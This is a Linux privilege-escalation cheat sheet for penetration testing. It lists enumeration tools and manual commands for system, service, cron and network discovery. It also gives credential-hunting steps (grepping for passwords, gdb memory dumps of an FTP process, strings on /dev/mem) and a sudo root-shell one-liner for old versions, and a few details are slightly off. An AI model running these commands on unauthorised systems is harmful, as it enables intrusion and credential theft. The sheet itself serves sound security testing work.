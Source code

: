 # OS

Lots of time can be saved by running linenum, lse, or Linpeas but below is how you can check stuff manualy and lots of stuff not done by the scripts.

LSE - https://github.com/diego-treitos/linux-smart-enumeration
Usage:
```
./lse.sh
```
```
./lse.sh -l1
```
```
./lse.sh -l2 | less -r
```

linemum - https://github.com/rebootuser/LinEnum
Usage:
```
./LinEnum.sh -r report -e /tmp/ #runs quick scan
```
```
./LinEnum.sh -r report -e /tmp/ -t #runs through slow test
```

linpeas - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Usage:
```
./linpeas.sh -a > /tmp/linpeas.txt 
less -r /dev/shm/linpeas.txt #Read with colors
```


## Distro?
```
cat /etc/issue
cat /etc/*-release
  cat /etc/lsb-release      # Debian based
  cat /etc/redhat-release   # Redhat based
```
## kernel? 64bit?
```
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```
## environmental variables?
```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
```
## printer?
```
lpstat -a
```

# Apps & Services
## What services are running? Which service has which user privilege?
```
ps aux
ps -ef
top
cat /etc/services
```
## Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!
```
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/
```

## Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

## What jobs are scheduled?
```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
## Any plain text usernames and/or passwords?
```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
```

## Sudo vulnerable?
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
sudo <= v1.28
```
sudo -u#-1 /bin/bash
```

## what commands do we have?

```
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null
```
## Compilers?
```
(dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/")
```

## memory dump using GDB on ftp service
```
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

## see if you read mem
```
strings /dev/mem -n10 | grep -i PASS
```

## loaded creds?
```
ps -ef | grep "authenticator"
```
## Network
General
```
Hostname, hosts and DNS
cat /etc/hostname /etc/hosts /etc/resolv.conf
dnsdomainname

#Content of /etc/inetd.conf & /etc/xinetd.conf
cat /etc/inetd.conf /etc/xinetd.conf

#Interfaces
cat /etc/networks
(ifconfig || ip a)

#Neighbours
(arp -e || arp -a)
(route || ip n)

#Iptables rules
(timeout 1 iptables -L 2>/dev/null; cat /etc/iptables/* | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null)

#Files used by network services
lsof -i
```
open ports on the system
```
(netstat -punta || ss --ntpu)
(netstat -punta || ss --ntpu) | grep "127.0"
```
sniffing
```
timeout 1 tcpdump
```

## check some drives
```
cat /etc/fstab
```


## Useful links
https://book.hacktricks.xyz/linux-unix/privilege-escalation#system-information
https://github.com/Tib3rius/Pentest-Cheatsheets/tree/master/privilege-escalation/linux
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


